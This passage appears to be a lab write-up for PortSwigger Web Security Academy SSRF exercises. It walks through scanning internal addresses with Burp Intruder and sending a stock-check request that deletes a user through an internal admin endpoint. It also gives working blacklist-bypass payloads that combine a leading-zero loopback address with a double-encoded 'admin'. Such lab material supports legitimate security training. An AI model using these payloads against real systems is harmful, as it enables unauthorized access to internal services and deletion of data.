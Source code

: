lets send it to intruder:

using Numbers type for payload:

0 to 255


response:

(many 400 status code, waiting for 200 status code...burp comunity is taking forever! lets code a simple script to scan range 192.168.0.x:


(https://github.com/n1njaZ0Z/Labs_Portswigger/blob/main/SSRF/Lab:%20Basic%20SSRF%20against%20another%20back-end%20system.py)

once we have the port we can send the final request:
```htm
POST /product/stock HTTP/1.1
Host: 065406a7304f37e005aca19aacacf11f.web-security-academy.net
...

stockApi=http://192.168.0.1/admin/delete?username=carlos
```
**deleted**!


# 3. Lab: SSRF with blacklist-based input filter
https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter


like prevoius lab we need access to http://localhost/admin to delet carlos - but it is being blocked by a waf system. we need to bypass waf with obfuscation 

(check methods online: https://portswigger.net/web-security/reference/obfuscating-attacks-using-encodings)

obfuscated methods:
1. **127.0.0.01** - Bypassing blacklist of "127.0.0.1" with leading zero
2. **%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65** - Double encoding the word "admin"

final payload:
```htm
http://127.0.0.01/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

```
we got admin panel! 

lets use it again with the 'delete user' link found in admin page:

/admin/delete?username=carlos


```htm
http://127.0.0.01/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos

```
**deleted!**


